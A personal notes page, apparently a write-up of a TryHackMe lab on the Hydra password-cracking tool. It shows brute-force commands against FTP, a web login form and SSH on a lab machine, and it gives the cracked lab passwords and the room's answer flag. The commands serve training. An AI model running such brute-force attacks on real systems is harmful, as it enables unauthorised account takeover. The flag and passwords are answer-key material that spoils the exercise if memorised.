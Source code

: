 ```yaml
---
{"dg-publish":true,"permalink":"/my-digital-garden/","tags":["gardenEntry"],"created":"2025-02-06T18:51:33.711-05:00","updated":"2025-02-06T19:42:27.443-05:00"}
---
```


Testing 123

Trying this out again 



# Task 2 - Using Hydra

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`


> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

Checking the page source tells us that its using a "POST" method as the request type

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"

```

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.


Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```


Then SSH'd into molly's machine to get the flag using the password, butterfly.


> [!Success] Answer
> THM{c8eeb0468febbadea859baeb33b2541b}
